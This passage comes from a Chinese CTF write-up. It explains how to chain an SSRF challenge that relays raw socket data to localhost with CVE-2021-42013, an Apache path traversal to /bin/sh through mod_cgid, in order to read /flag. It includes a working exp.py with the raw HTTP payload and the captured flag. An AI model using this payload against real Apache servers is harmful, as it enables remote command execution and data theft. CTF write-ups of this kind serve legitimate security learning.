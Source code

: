 ```php
        while True:
            chunk = s.recv(2048)
            if not chunk.strip():
                break
            else:
                recvdata += chunk
                continue
        return recvdata
    except Exception as e:
        return str(e)

app.run(host="0.0.0.0",port=8080,threaded=True)
```

题目接受参数port和data，对127.0.0.1:port进行nc连接，发送data

httpd.conf里开启了cgid

```php
LoadModule cgid_module modules/mod_cgid.so
```

结合题目apache，应该是要打CVE-2021-42013，路径穿越命令执行

同时，题目nc发送data后是循环接收chunk，这样会导致完异常无法接受返回信息

针对chunked传输模式，通过设置Content-Length来限制长度（可以参考上一篇的"凌武杯" D^3CTF 2024 wp）

exp.py

```php
import requests

url = "url/nc"

poc = "echo;cat /flag"
payload=f"""POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1\r\nHost: 127.0.0.1\r\nConnection: close\r\nContent-Length: {len(poc)}\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\n{poc}"""
data ={
    "port":"80",
    "data":payload
}
res = requests.post(url=url,data=data)
print(res.text)
```

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1715154993420-4b1e793b-b8c7-494e-8904-e1c1cc5b12dd.png)

```php
flag{whaTaapaCherce}
```

### f or r

这个没什么好说的，能找到原题
